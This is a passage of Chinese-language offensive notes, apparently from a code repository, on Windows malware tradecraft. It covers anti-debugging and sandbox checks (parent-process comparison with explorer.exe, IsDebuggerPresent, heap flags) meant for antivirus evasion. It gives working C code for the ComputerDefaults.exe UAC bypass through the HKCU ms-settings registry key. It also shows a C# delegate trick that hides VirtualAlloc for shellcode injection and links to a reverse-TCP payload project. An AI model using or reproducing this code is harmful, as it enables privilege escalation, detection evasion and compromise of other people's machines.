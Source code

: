 ```c
    }
}
```

这里主要的思路是获取调用kernel32库中的CreateToolhelp32Snapshot函数获得一个进程快照信息，然后从快照中获取到explorer.exe的进程id信息，然后通过当前进程的pid信息在进程快照中找到其父进程的id信息，最后将两者进行比较，判断当前进程是否是有人工启动的。

反调试的措施不仅仅是检测父进程，还可以通过调用windows的API接口IsDebuggerPresent来检查当前进程是否正在被调试。

TODO： 检测反调试的话，还可以通过检查进程堆的标识符号来实现，系统创建进程时会将Flags置为0×02（HEAP_GROWABLE），将ForceFlags置为0。但是进程被调试时，这两个标志通常被设置为0x50000062h和0x40000060h。当然还可以利用特权指令in eax,dx来做免杀。

## UAC
### visual Studio下设置UAC需求
![-w922](https://i.loli.net/2021/01/18/XNOJmQn84xAfU6j.jpg)/Users/boi/Desktop/特征信息/md


### CompyterDefaults.exe
注意在unicode环境下，需要通过`(PBYTE)&`来转换`CHAR *`类型的字符串。
以及GetModuleFileNameA与GetModuleFileName的区别：字符串编码的区别
```c
//bypass UAC 高权限启动当前进程
//GetModuleFileNameA: 获取当前文件完整路径
#undef  _UNICODE
#define _UNICODE
#undef  UNICODE
#define UNICODE
#define _CRT_SECURE_NO_WARNINGS

CHAR cwd[256];
GetModuleFileNameA(NULL, cwd, sizeof(cwd));//"cmd.exe"
LPCTSTR gname = "DelegateExecute";
HKEY hkResult = NULL;
int ret = RegCreateKeyA(HKEY_CURRENT_USER, "Software\\Classes\\ms-settings\\shell\\open\\command", &hkResult);
ret = RegSetValueExA(hkResult, (const BYTE*)"DelegateExecute", 0, REG_SZ, "", 1);
ret = RegSetValueExA(hkResult, NULL, 0, REG_SZ, (PBYTE)&cwd, strlen(cwd) + 1);
RegCloseKey(hkResult);
system("C:\\windows\\system32\\ComputerDefaults.exe");
exit(1);
```

## Other

### C# 函数变换
[https://github.com/DamonMohammadbagher/NativePayload_Reverse_tcp]()

```c#
public static UInt32 funcAddr;
[DllImport("kernel32")]
public static extern UInt32 VirtualAlloc(UInt32 lpStartAddr, UInt32 size, UInt32 flAllocationType, UInt32 flProtect);


public delegate UInt32 V(UInt32 lpStartAddr, UInt32 size, UInt32 flAllocationType, UInt32 flProtect);

V v = Hide.code.b._classs.VirtualAlloc;

Hide.code.b.funcAddr = v(0, (UInt32)Hide.code.a.ftp.Length, Hide.hide2.hide3.MMC, Hide.hide2.hide3.PERE);
        
```

[go/shellcode_inject/virtual>>]: generate